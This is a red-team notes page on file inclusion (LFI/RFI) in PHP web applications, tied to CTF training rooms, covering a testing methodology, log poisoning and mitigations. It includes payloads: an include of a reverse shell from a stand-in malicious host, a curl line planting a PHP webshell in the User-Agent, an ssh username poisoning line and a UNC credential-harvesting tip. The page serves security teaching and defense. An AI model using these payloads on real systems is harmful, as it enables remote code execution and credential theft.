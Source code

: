 # File inclusion

[![fileinclusion](../../../../_badges/htb/fileinclusion.svg)](https://academy.hackthebox.com/course/preview/file-inclusion)
[![fileinc](../../../../_badges/thmp/fileinc.svg)](https://tryhackme.com/room/fileinc)
[![filepathtraversal](../../../../_badges/thm/filepathtraversal.svg)](https://tryhackme.com/r/room/filepathtraversal)

<div class="row row-cols-lg-2"><div>

A web application might import/include files based on data from the user. This involves using the user input to:

* 🐚 determine configuration files to include
* 🌍 determine language files to include
* ...

If the user input isn't properly sanitized, the user may be able to control which files are included, which may allow them:

* 🗺️ To read local or remote files
* 📚 To leverage a [SSRF](ssrf.md) attack <small>(port mapping, steal files, etc.)</small>
* 🐲 To execute code <small>(either uploaded code, remote code, or using logs)</small>

Code/data exposure may further compromise the infrastructure.
</div><div>

There are two categories of file inclusion:

* **Local File Inclusion (LFI)** 🏠: include a local file
* **Remote File Inclusion (RFI)** ✈️: include a remote file

<br>

Additional notes:

* 🤖 Not all include functions can execute code
* 📌 Template engines are more likely to contain LFI/RFI.
* 🐲 While LFI/RFI often involve HTTP, we can also use `ftp://`
* 🔑 Try `\\YOURIP\share\` RFI on Windows to [harvest credentials](/cybersecurity/red-team/_knowledge/topics/request_grabber.md)
* 😎 For RFI, try a local URLs first <small>(ex: `http://127.0.0.1:80/index.php`)</small>, as remote URLs may be blocked by a firewall
</div></div>

<hr class="sep-both">

## Basic Methodology

[![fileinclusion](../../../../_badges/htb/fileinclusion.svg)](https://academy.hackthebox.com/course/preview/file-inclusion)
[![fileinc](../../../../_badges/thmp/fileinc.svg)](https://tryhackme.com/room/fileinc)

<div class="row row-cols-lg-2"><div>

Assuming you found some vectors that might lead to a LFI/RFI:

* 📚 Headers
* 📄 Forms
* 🍪 Cookies
* ...

You might try to play around with the value to see if it works.

For a list of interesting files to read, aside from the website source code and configuration files, refer to [arbitrary file read](/cybersecurity/red-team/s3.exploitation/vulns/cheatsheet/arbitrary_file_access.md).
</div><div>

Assuming we have `page=about`.

* Test Path: `./about`
* Test Null-Byte: `./about.php%00`
* Test [Path Traversal](path_traversal.md): `../<folder name>/about`
* Test engine-specific payloads, such as `php://filter`
* Test Remote File Inclusion
* ...

⚠️ Refer the source code in priority to understand filtering <small>(if any)</small>.
</div></div>

<hr class="sep-both">

## PHP File Inclusion

[![fileinclusion](../../../../_badges/htb/fileinclusion.svg)](https://academy.hackthebox.com/course/preview/file-inclusion)
[![fileinc](../../../../_badges/thmp/fileinc.svg)](https://tryhackme.com/room/fileinc)
[![filepathtraversal](../../../../_badges/thm/filepathtraversal.svg)](https://tryhackme.com/r/room/filepathtraversal)
[![archangel](../../../../_badges/thm-p/archangel.svg)](https://tryhackme.com/r/room/archangel)
[![teamcw](../../../../_badges/thm-p/teamcw.svg)](https://tryhackme.com/r/room/teamcw)
[![directory_traversal](../../../../_badges/rootme/web_server/directory_traversal.svg)](https://www.root-me.org/en/Challenges/Web-Server/Directory-traversal)
[![local_file_inclusion](../../../../_badges/rootme/web_server/local_file_inclusion.svg)](https://www.root-me.org/en/Challenges/Web-Server/Local-File-Inclusion)
[![php_filters](../../../../_badges/rootme/web_server/php_filters.svg)](https://www.root-me.org/en/Challenges/Web-Server/PHP-Filters)
[![php_assert](../../../../_badges/rootme/web_server/php_assert.svg)](https://www.root-me.org/en/Challenges/Web-Server/PHP-assert)
[![remote_file_inclusion](../../../../_badges/rootme/web_server/remote_file_inclusion.svg)](https://www.root-me.org/en/Challenges/Web-Server/Remote-File-Inclusion)
[![xslt_code_execution](../../../../_badges/rootme/web_server/xslt_code_execution.svg)](https://www.root-me.org/en/Challenges/Web-Server/XSLT-Code-execution)
[![local_file_inclusion_wrappers](../../../../_badges/rootme/web_server/local_file_inclusion_wrappers.svg)](https://www.root-me.org/fr/Challenges/Web-Serveur/Local-File-Inclusion-Wrappers)
[![pyrat_auction](../../../../_badges/rootme/realist/pyrat_auction.svg)](https://www.root-me.org/en/Challenges/Realist/PyRat-Auction-83)
[![local_file_inclusion_double_encoding](../../../../_badges/rootme/web_server/local_file_inclusion_double_encoding.svg)](https://www.root-me.org/en/Challenges/Web-Server/Local-File-Inclusion-Double-encoding)

<div class="row row-cols-lg-2"><div>

The URL `http://example.com/?lang=fr` associated with the code below is an example of a vulnerable PHP code.

```php!
include "lang/$_GET[lang].php" // It loads lang/fr.php
```

**Local File Inclusion (LFI)** 🏠: inject a local file

```php!
// ex: we uploaded a reverse shell (a fake PNG)
// as our avatar (avatar.png), then we could use:
include "lang/../uploads/avatar.png";
include "phar://<refer to php wrappers>";
```

**Remote File Inclusion (RFI)** ✈️: inject a remote file

```php!
// 🛑 allow_url_fopen MUST BE SET TO true
include "http://malicious.site/reverse_shell.php";
include "data://<refer to php wrappers>";
```
</div><div>

💥 PHP `include`/`require` function executes PHP code.

⚔️ We can use [Path traversal](path_traversal.md) or [PHP Wrappers](files/wrappers.md) to include a malicious file, such as one we uploaded using another attack or execute code.

If the session contains a value that we control, we can inject PHP code in this value, then we can read the session file.

* `/var/lib/php/sessions/sess_<session id>`
* `C:\Windows\Temp\sess_<session id>`
</div></div>

<hr class="sep-both">

## Log Poisoning

[![fileinclusion](../../../../_badges/htb/fileinclusion.svg)](https://academy.hackthebox.com/course/preview/file-inclusion)
[![filepathtraversal](../../../../_badges/thm/filepathtraversal.svg)](https://tryhackme.com/r/room/filepathtraversal)
[![archangel](../../../../_badges/thm-p/archangel.svg)](https://tryhackme.com/r/room/archangel)

<div class="row row-cols-lg-2"><div>

If the vulnerable function can execute code, we may not have to upload a webshell, we can inject PHP code in the logs and read the logs to execute the injected code.

Note that logs must be readable by the web application. Nginx logs are readable by anyone, but not Apache logs.

```ps
# Ex: load /var/log/apache2/access.log / ...
$ curl [...] -A "<?php system(\$_GET['cmd']); ?>"
```

👉 `/proc/self/environ` or `/proc/self/fd/<0-50>` will contains the User-Agent too, but they may not be readable either.
</div><div>

We can alternatively poison ssh logs <small>(username)</small>, ftp logs, etc.

```ps
$ ssh '<?php /*code*/ ?>'@IP # Ex: /var/log/auth.log
```

Common logs and their location can be [found here](/cybersecurity/blue-team/topics/logs.md#common-log-files-locations).
</div></div>

<hr class="sep-both">

## File Inclusion Filter By-Pass

Refer to [Path Traversal Bypass filters](path_traversal.md#path-traversal-bypass-filters).

<hr class="sep-both">

## File Inclusion Mitigation 🛡️

[![fileinclusion](../../../../_badges/htb/fileinclusion.svg)](https://academy.hackthebox.com/course/preview/file-inclusion)
[![fileinc](../../../../_badges/thmp/fileinc.svg)](https://tryhackme.com/room/fileinc)
[![filepathtraversal](../../../../_badges/thm/filepathtraversal.svg)](https://tryhackme.com/r/room/filepathtraversal)

<div class="row row-cols-lg-2"><div>

* 🪲 Do not use user-controlled input to include a file, whether the input is from the database or from a form.

* 🫧 Use whitelists <small>(switch-case value to file, maps, etc.)</small>, and avoid directly using user-controlled input

* 🕸️ If paths are allowed, refer to path traversal mitigation

* 🔫 Use additional verifications such as using `realpath` in path to ensure the files are within the allowed directories
</div><div>

* 🔒 Use docker or a similar technology to isolate the application OR lock web applications to their web root directory. In PHP, we can set the `open_basedir` variable in the PHP INI file. Beware that configuration files will still be accessible.

* 🛡️ In PHP, disable unused dangerous settings such as `allow_url_fopen` or `allow_url_include`.

* 📚 Use additional tools such as a WAF, etc.

Refer to [PHP Security And Bypasses](/programming-languages/web/php/_general/index.md).
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* Second Order Attack (poisoned database entry)
* [LFISuite](https://github.com/D35m0nd142/LFISuite) <small>(1.6k ⭐, 2018 🪦)</small>
* [LFiFreak](https://github.com/OsandaMalith/LFiFreak) <small>(0.2k ⭐, 2015 🪦)</small>
* [liffy](https://github.com/mzfr/liffy) <small>(0.7k ⭐)</small>
</div><div>
</div></div>
